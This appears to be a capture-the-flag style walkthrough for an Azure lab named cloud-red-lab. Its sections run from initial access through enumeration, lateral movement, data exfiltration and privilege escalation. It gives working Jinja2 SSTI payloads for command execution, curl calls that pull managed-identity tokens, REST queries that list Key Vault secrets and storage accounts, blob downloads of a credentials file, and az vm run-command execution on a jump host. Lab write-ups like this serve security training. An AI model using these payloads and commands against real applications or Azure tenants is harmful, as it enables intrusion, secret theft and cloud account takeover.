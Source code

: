 # Initial Access

- Application Credentials:

```
username:admin, password:f865b53623b121fd34ee5426c792e5c33af8c227
username:guest, password:7cf7eddb174125539dd241cd745391694250e526"
```

![](../artifacts/images/azure/1.png)

## Remote Code Execution (using SSTI)

- Detecting and Exploiting SSTI (Server Side Template Injection) to execute commands and get the Managed Identity Token.

```bash
# How to detect SSTI
{{7*7}}
{{7*'7'}}
```

![](../artifacts/images/azure/2.png)
![](../artifacts/images/azure/3.png)

```bash
# Execution of basic commands
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('$CMD').read() }}

# Read the environment variables
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('env').read() }}

# Getting the Managed Identity Token for management.azure.com
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read() }}

# Getting the Managed Identity Token for graph.microsoft.com
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' curl "$IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER').read() }}
```

![](../artifacts/images/azure/4.png)
![](../artifacts/images/azure/5.png)
![](../artifacts/images/azure/6.png)
![](../artifacts/images/azure/7.png)


References: [Portswigger](https://portswigger.net/web-security/server-side-template-injection), [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html), [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/)


# Enumeration  

- From the `accessToken` received use the following website to get additional information. [https://jwt.io](https://jwt.io)

![](../artifacts/images/azure/8.png)

```powershell
$accessToken=""   # accessToken goes here
$SUB=""           # change subscription name based on enumeration
$headers = @{ Authorization = "Bearer $accessToken" }
```

![](../artifacts/images/azure/9.png)

> Moving forward we just need the correct `accessToken` for the correct `resource`, URI endpoint and the supported API version to query resources using either the graph or Management endpoint. 

```powershell
# The providers returned by that API are the Azure services you’re currently allowed to enumerate with your token
$uri = "https://management.azure.com/subscriptions/$SUB/providers?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/10.png)

```powershell
# App Service/Function Apps - Query the Azure Management API to list all App Service (Web App) resources in the subscription using your managed-identity token.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Web/sites?api-version=2021-03-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/11.png)

```powershell
# Fetches the full resource details for the Web App (metadata, properties, identity, hostNames, state) from the Azure Management API using your managed-identity token.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.Web/sites/cloud-red-lab-app-XXXXXX?api-version=2021-03-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/12.png)

```powershell
# Logic Apps
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Logic/workflows?api-version=2019-05-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/13.png)

- [Storage Services](https://learn.microsoft.com/en-us/azure/storage/)

```powershell
# Storage Providers - Query the Azure Management API to list all registered Storage providers in the subscription.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Storage/?api-version=2022-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/14.png)

```powershell
# Storage Accounts - List all Storage Accounts under the subscription to identify accessible blob or file storage resources.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Storage/storageAccounts?api-version=2022-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/15.png)

```powershell
# Specific Storage Account - Fetch detailed metadata, configurations, and identity information for a single Storage Account.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.Storage/storageAccounts/internalblobXXXXXX?api-version=2022-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/16.png)

- [Key Vaults](https://learn.microsoft.com/en-us/azure/key-vault/)

```powershell
# Key Vaults - Enumerate all Key Vaults available within the subscription using your managed-identity token.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.KeyVault/vaults?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```

![](../artifacts/images/azure/17.png)

```powershell
# Specific Key Vault - Retrieve full metadata, configuration, and access policy information for a given Key Vault.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.KeyVault/vaults/corpVault-XXXXXX?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```

![](../artifacts/images/azure/18.png)

```powershell
# Secrets - List all stored secrets within the specified Key Vault to identify credentials, SAS tokens, or sensitive data.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.KeyVault/vaults/corpVault-XXXXXX/secrets?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```

![](../artifacts/images/azure/19.png)

```powershell
# Certificates - Enumerate certificates stored in the Key Vault that may contain private keys or service credentials.
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/cloud-red-lab/providers/Microsoft.KeyVault/vaults/corpVault-XXXXXX/certificates?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```

![](../artifacts/images/azure/20.png)

# Lateral Movement 

- Fetching Key Vault Token using the managed Identity for the App Service and Using the Vault Token to query the Key Vault. 

```powershell
# Fetch Key Vault Token
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' curl -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2019-08-01"').read() }}
```

![](../artifacts/images/azure/21.png)

```powershell
$vaultToken=""
$headers = @{ Authorization = "Bearer $vaultToken" }
```

![](../artifacts/images/azure/22.png)

```powershell
$uri = "https://corpvault-XXXXXX.vault.azure.net/secrets/flag?api-version=7.4"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | ConvertTo-Json
```

![](../artifacts/images/azure/23.png)

```powershell
$uri = "https://corpvault-XXXXXX.vault.azure.net/secrets/flags-sas-url?api-version=7.4"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET
```

![](../artifacts/images/azure/24.png)

# Data Exfiltration

```powershell
# Download flag file from blob
curl "https://internalblobxxxxx.blob.core.windows.net/flag/flag3.txt?SASToken"
```

![](../artifacts/images/azure/25.png)

```powershell
# List container contents (readable)
curl "https://internalblobxxxxx.blob.core.windows.net/flag/?restype=container&comp=list&SASToken" 
```

![](../artifacts/images/azure/26.png)

```powershell
# Grab creds file
curl "https://internalblobxxxxx.blob.core.windows.net/flag/bkpuser-creds.json?SASToken" 
```

![](../artifacts/images/azure/27.png)

# Privilege Escalation and Persistence

```powershell
Get-Content .\bkpuser-creds.json
```

![](../artifacts/images/azure/28.png)

```powershell
# Desktop Virtualization provider - confirm Desktop Virtualization resources are registered/visible.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.DesktopVirtualization?api-version=2019-09-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/29.png)

```powershell
# List all VMs in the subscription - discover compute hosts you may pivot to.
$uri = "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.Compute/virtualMachines?api-version=2022-11-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET
```

![](../artifacts/images/azure/30.png)

```powershell
# Specific VM details - retrieve full metadata/config for the jump host (network, identity, extensions).
$uri = "https://management.azure.com/subscriptions/$SUB/resourceGroups/CLOUD-RED-LAB/providers/Microsoft.Compute/virtualMachines/jump-vm?api-version=2022-11-01"
Invoke-RestMethod -Headers $headers -Uri $uri -Method GET | fl *
```

![](../artifacts/images/azure/31.png)

Login to the portal using the credentials discovered.

![](../artifacts/images/azure/32.png)

Use device code login
```powershell
az login --use-device-code
```

![](../artifacts/images/azure/33.png)

![](../artifacts/images/azure/34.png)

![](../artifacts/images/azure/35.png)

![](../artifacts/images/azure/36.png)

![](../artifacts/images/azure/37.png)

![](../artifacts/images/azure/38.png)

```powershell
# Execute a command on the VM via Azure RunCommand to read a flag file (no SSH required if authorized).
az vm run-command invoke -g cloud-red-lab -n jump-vm --command-id RunShellScript --query "value[0].message" --scripts "id" -o tsv
```

![](../artifacts/images/azure/39.png)

```powershell
az vm run-command invoke -g cloud-red-lab -n jump-vm --command-id RunShellScript --query "value[0].message" --scripts "whoami" -o tsv
```

![](../artifacts/images/azure/40.png)

```powershell
az vm run-command invoke -g cloud-red-lab -n jump-vm --command-id RunShellScript --query "value[0].message" --scripts "cat /opt/flags/flag4.txt" -o tsv
```

![](../artifacts/images/azure/41.png)